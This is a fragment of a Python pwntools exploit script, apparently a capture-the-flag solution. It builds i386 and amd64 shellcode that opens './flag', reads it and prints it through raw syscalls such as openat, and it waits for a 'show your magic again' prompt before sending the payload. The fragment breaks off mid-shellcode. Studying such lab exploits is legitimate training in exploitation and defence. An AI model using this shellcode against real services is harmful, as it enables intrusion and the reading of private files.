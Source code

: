 ```python
# '''
# xor eax, eax ; 
# mov eax,0x5 ;
# push 0x00006761;
# push 0x6c662f2e;
# mov ebx,esp;
# mov edi,esp; 
# mov ecx, 0;  
# int 0x80; 
# ''',arch="i386")
# # read
# shellcode += asm(
# '''
# mov ebx,3;
# mov ecx,esp;
# mov edx,0x20;
# mov eax,0x3;
# int 0x80;
# '''
# ,arch="i386")
# # write
# shellcode +=asm(
# '''
# mov ebx,1;
# mov ecx,esp;
# mov edx,0x20;
# mov eax,0x4;
# int 0x80;
# '''
# ,arch="i386")


# payload = shellcode

# payload = payload.ljust(0x160,b'\x00')
# payload += b"\x00\x00./flag\x00\x00\x00"
# print(payload)
# sd(payload)
# ru(b"show your magic again\n")
# shellcode= asm(
# '''
# push 0x23    
# '''
# )
# ia()
# print(len(asm(shellcode,arch='amd64')

ru(b"show your magic again\n")
# read函数 and sendfile函数
shellcode = asm(
'''
mov rax, 0x67616c662f2e
push rax
xor rdi, rdi
sub rdi, 100
mov rsi, rsp
xor edx, edx
xor r10, r10
push 0x101
pop rax
syscall

mov rdi, 1
```